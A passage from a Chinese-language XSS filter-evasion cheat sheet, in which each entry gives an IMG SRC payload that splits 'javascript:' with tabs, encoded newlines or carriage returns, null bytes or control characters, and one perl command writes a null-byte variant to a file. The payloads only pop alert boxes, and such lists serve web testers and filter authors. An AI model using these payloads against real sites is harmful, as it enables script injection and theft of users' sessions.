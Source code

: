 ### 内嵌TAB

用来分开xss攻击代码

```
<IMG SRC="jav   ascript:alert('XSS');">
```

* * *

### 内嵌被编码的TAB

用来分开xss攻击代码

```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```

* * *

### 内嵌换行符去分开xss代码

一些网站声称09-13编码的所有字符（十进制）都可以实现这种形式的攻击。这是不正确的。只有09(tab), 10 (换行) 和 13 (回车)可以使用。查看ascii表为更详细的信息。下面四个xss例子展示了这个向量。

```
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```

* * *

### 编码回车符去分开xss代码

注意：上面我编写的三个xss字符串比必须的字符串更长，原因是0可以被省略。通常我看到的过滤器假设十六进制和十进制的编码是两到三个字符。正确的应该是一到七个字符。

```
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

* * *

### 没有分割的javascript指令

null字符也可以作为一个xss向量，但是不像上边那样。你需要直接注入它们利用一些工具例如Burp Proxy，或是使用 %00 在你的url字符串里。或者如果你想写你自己的注入工具你可以使用vim（^V^@ 会生成null），以及用下面的程序去生成它到一个文本文件中。好吧，我再一次撒谎了。 Opera的老版本（大约 7.11 on Windows）是脆弱的对于一个额外的字符173（软连字符）。但是null字符 %00 是更加的有用或者帮助我们绕过某些真实存在的过滤器用过变动像这个例子中的。

```
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```

* * *

### 图片元素中javascript之前的空格和元字符为xss

xss过滤拼配模式没有考虑单词"javascript:"中可能存在空格是正确的，因为否则将无法渲染。但是这也导致了错误的假设认为你不可以有一个空格在引号和 "javascript:" 单词之间。事实上你可以插入 1-32编码字符（十进制）中的任何字符。

```
<IMG SRC=" &#14;  javascript:alert('XSS');">
```
